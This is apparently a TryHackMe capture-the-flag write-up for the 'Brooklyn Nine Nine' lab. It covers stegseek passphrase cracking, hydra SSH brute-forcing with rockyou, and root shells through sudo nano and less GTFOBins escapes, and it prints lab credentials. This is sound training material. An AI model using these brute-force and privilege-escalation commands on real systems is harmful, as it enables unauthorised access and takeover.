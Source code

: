 ```yaml
---
title: Brooklyn Nine Nine
description: 'Steganography and a GTFOBin for Nano and Less'
pubDate: 2024-08-26
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/95b2fab20e29a6d22d6191a789dcbe1f.jpeg'
---
```


In the source of the page we there is a comment mentioning steganography.

So lets grab the only image we have so far:

```bash
wget http://10.10.206.220/brooklyn99.jpg
```

We don't have a password for it and `binwalk` or `exiftool` doesn't give extra much info.

## USER holt

Looking at the nmap scan we see that anonymous access to FTP.
On the FTP there is only 1 file (`note_to_jake.txt`) mentioning something about a weak password.
So maybe we can just brute force the password for the image we have.

```bash
stegseek brooklyn99.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".
```

In `brooklyn99.jpg.out` there is an SSH user and password.

```bash
ssh holt@10.10.206.220 # <-- fluffydog12@ninenine
```

## ROOT holt

Once logged we can check the sudo rights since we have the users password:

```bash
sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

This seems pretty straight forward to exploit thanks to GTFOBins (https://gtfobins.github.io/gtfobins/nano/#shell):

```bash
sudo /bin/nano
```

Now in Nano we do:

```
^R^X
reset; sh 1>&0 2>&0
```

This gives us a root shell.


### USER jake

Since its mentioning the user jake with a weak password we can try a brute force on SSH with that user.

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.206.220 ssh -t 4
...[snip]...
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.206.220   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
...[snip]...
```

## ROOT jake

Checking our sudo permissions we see we can execute `less`.

```bash
 sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

Lets check GTFOBins (https://gtfobins.github.io/gtfobins/less/#shell) to see how to exploit this.

```bash
sudo /usr/bin/less /etc/profile
```

Now in Less:

```
!/bin/sh
```

This gives us a root shell.

